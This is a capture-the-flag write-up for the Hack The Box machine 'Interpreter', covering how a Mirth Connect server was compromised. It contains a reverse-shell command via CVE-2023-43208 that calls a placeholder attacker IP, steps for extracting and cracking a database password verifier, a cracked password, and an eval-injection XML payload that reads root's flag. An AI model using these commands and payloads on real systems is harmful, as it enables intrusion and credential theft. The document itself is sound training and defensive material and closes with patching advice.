# HTB - Interpreter

**IP Address:** `10.129.23.60`  
**OS:** Linux (Debian 12; kernel `6.1.0-43-amd64` observed on-shell)  
**Difficulty:** Medium  
**Tags:** #Linux #MirthConnect #Jetty #RCE #Python #PrivilegeEscalation

---
## Synopsis

Interpreter exposes **Mirth Connect 4.4.0** on **HTTP/HTTPS (Jetty)**, which is vulnerable to **CVE-2023-43208** and yields an initial shell as the service user **`mirth`**. From there, **local MariaDB credentials** in `/usr/local/mirthconnect/conf/mirth.properties` enable recovering **`sedric`’s** verifier from the **`mc_bdd_prod`** database, cracking it offline (**PBKDF2-HMAC-SHA256**, hashcat **`-m 10900`**), and pivoting to **SSH** as **`sedric`** to capture **`user.txt`**. Privilege escalation comes from a **`root`-owned** localhost Flask helper, **`/usr/local/bin/notif.py`**, which processes attacker-controlled XML fields into an **`eval(f'''…''')`** path and allows reading **`/root/root.txt`**.

---
## Skills Required

- Basic **Linux enumeration** (process listing, file reads, service layout)
- **Nmap** scanning and interpretation (`-sCV`, version banners)
- **Web application triage** (TLS services, admin portals, client artifacts like `webstart.jnlp`)
- **Python exploitation tooling** usage (public PoCs) with safe validation (callbacks / observable effects)
- **MySQL/MariaDB** client basics (`SHOW`, `SELECT`, joins)
- **Hashcat** slow-hash mode selection (**`-m 10900`**) and hash formatting
- **Local HTTP testing** with Python (`requests`) when `curl` is not available on-target

## Skills Learned

- Mapping **Mirth Connect** exposure (Jetty) to **version-specific** unauthenticated RCE (**CVE-2023-43208** vs older issues)
- Turning **application DB secrets** into **user pivots** (password verifier extraction + offline cracking)
- Recognizing dangerous **Python templating** patterns (`eval` + **f-strings**) even when input is “filtered”

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.23.60
```


---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.23.60 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80,443,6661 10.129.23.60 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22/tcp | ssh | OpenSSH `9.2p1` on Debian 12 |
| 80/tcp | http | Jetty; title **Mirth Connect Administrator** |
| 443/tcp | ssl/http | Jetty; TLS cert CN **`mirth-connect`** |
| 6661/tcp | unknown | Open, not fingerprinted in the captured notes |

---
## 2. Service Enumeration

### 2.1 HTTP surface (Mirth landing + fingerprints)

The open web ports and Jetty banners strongly suggest the administrative/web surface is **Mirth Connect**. Next, fingerprint the landing page and pull the administrator entrypoints referenced by the HTML.

```bash
whatweb http://10.129.23.60/
curl http://10.129.23.60/
```




---
### 2.2 HTTPS administrator endpoints (`webadmin`, `webstart`, launcher probe)

Mirth commonly splits “thick client / webstart” artifacts from the **HTTPS** administrator UI. Validate what is exposed on **443**, including the administrator landing page and whether a local launcher path exists.

```bash
curl -k -i https://10.129.23.60/webadmin/Index.action
curl -k -i https://10.129.23.60/launcher/
```





The WebStart metadata is also useful because it pins the **client/server integration version** and download paths:

```bash
curl -k https://10.129.23.60/webstart.jnlp -o webstart.jnlp
cat webstart.jnlp
```



---
## 3. Foothold

### 3.1 Version confirmation + unauthenticated RCE (CVE-2023-43208) to `mirth`

The targeted service scan and `webstart.jnlp` both indicate **Mirth Connect 4.4.0**. Public material documents **CVE-2023-43208** as the **post-4.4.0 patch bypass** affecting **< 4.4.1**, which matches the observed version band.

Validate exploitation with an **observable callback** (reverse shell) rather than relying only on a PoC’s “appears executed” string.

```bash
nc -lvnp 4444
python3 CVE-2023-43208.py -u https://10.129.23.60 -c 'nc -c sh <ATTACKER_IP> 4444'
```



Stabilize the shell enough to confirm identity and hostname:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
whoami
id
hostname
```



---
### 3.2 Local DB credentials in `mirth.properties` (pivot preparation)

On-box Mirth configuration commonly stores database connectivity settings under `/usr/local/mirthconnect/conf/mirth.properties`. Reading it provides credentials for the local **`mc_bdd_prod`** database.

```bash
cd /usr/local/mirthconnect/conf
cat mirth.properties
```




---
## 4. Privilege Escalation

### 4.1 User pivot: recover `sedric` verifier from MariaDB + offline crack (hashcat `-m 10900`)

With the DB password from `mirth.properties`, connect locally and extract the **`PERSON` / `PERSON_PASSWORD`** relationship for **`sedric`**.

```bash
mysql -u mirthdb -p -h 127.0.0.1 mc_bdd_prod
```

Inside the SQL session:

```sql
SHOW DATABASES;
USE mc_bdd_prod;
SHOW TABLES;
SELECT CONCAT(p.USERNAME, ';', pp.PASSWORD)
FROM PERSON p
JOIN PERSON_PASSWORD pp ON p.ID = pp.PERSON_ID;
```




The verifier is **base64**, and decodes to **40 bytes** total. Split the first **8 bytes** as salt and the remaining **32 bytes** as derived material, then wrap for **hashcat**:

```bash
echo 'u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==' | base64 -d | xxd -p -c 256
echo 'bbff8b0413949da7' | xxd -r -p | base64
echo '62c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb' | xxd -r -p | base64
echo 'sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=' > hash_sedric.txt
hashcat -m 10900 hash_sedric.txt /usr/share/wordlists/rockyou.txt
```




Recovered (redact if publishing publicly): **`sedric` password cracked to `snowflake1`**.

Log in over SSH and capture the user flag:

```bash
ssh sedric@10.129.23.60
cat /home/sedric/user.txt
```




🏁 **User flag obtained**

---
### 4.2 Root access via `notif.py` (localhost Flask + `eval(f'''…''')`)

Process enumeration shows a **`root`-owned** long-running Python script: **`/usr/local/bin/notif.py`**. 

```bash
ps aux | grep "python"
cat /usr/local/bin/notif.py
```




Reading the script shows a **localhost-only** Flask endpoint on **`127.0.0.1:54321`** and a dangerous `template()` implementation using **`eval(f'''…''')`**.

Confirm the listener and process ownership:

```bash
ss -ltnp | grep -E ':54321\b' || true
ps -fp $(pgrep -f '/usr/local/bin/notif.py' | head -n1)
cat /usr/local/bin/notif.py
```


This host did not have `curl` available in the `sedric` shell (`curl: command not found`), so validate the endpoint locally with **Python `requests`**.

Baseline POST:

```bash
python3 - <<'EOF'
import requests

url = "http://127.0.0.1:54321/addPatient"
xml = """<patient>
<firstname>A</firstname>
<lastname>B</lastname>
<sender_app>X</sender_app>
<timestamp>t</timestamp>
<birth_date>01/01/2000</birth_date>
<gender>M</gender>
</patient>"""

r = requests.post(url, data=xml)
print(r.text)
EOF
```



Exfiltrate **`/root/root.txt`** via the interpreted `firstname` field:

```bash
python3 - <<'EOF'
import requests

url = "http://127.0.0.1:54321/addPatient"

xml = """<patient>
<firstname>{open("/root/root.txt").read()}</firstname>
<lastname>B</lastname>
<sender_app>X</sender_app>
<timestamp>t</timestamp>
<birth_date>01/01/2000</birth_date>
<gender>M</gender>
</patient>"""

r = requests.post(url, data=xml)
print(r.text)
EOF
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Enumerate** Interpreter and identify **Mirth Connect** on **80/443** (Jetty), with version hints pointing to **4.4.0**.
2. **Foothold** via **CVE-2023-43208** to a shell as **`mirth`**.
3. **Pivot** using **`mirth.properties`** to access **local MariaDB**, extract **`sedric`’s** verifier, **crack** it (**hashcat `-m 10900`**), and **SSH** as **`sedric`** for **`user.txt`**.
4. **Privesc** by abusing **`root`** **`/usr/local/bin/notif.py`** on **`127.0.0.1:54321`** to read **`/root/root.txt`**.

---
## Defensive Recommendations

- Patch **Mirth Connect** to **>= 4.4.1** (addresses **CVE-2023-43208**, the bypass of the **CVE-2023-37679** fix) and keep it off public networks unless strictly required.
- Remove **dangerous dynamic evaluation** (`eval` / `exec`) from templating paths; prefer safe formatting with strict schemas and **no code execution**.
- Treat **DB credentials on-disk** as high risk: restrict file permissions, rotate secrets, and avoid password reuse across **SSH** and application accounts.
- Bind sensitive localhost services to **Unix sockets + permissions**, or add **mutual authentication**, not just `127.0.0.1` IP checks.
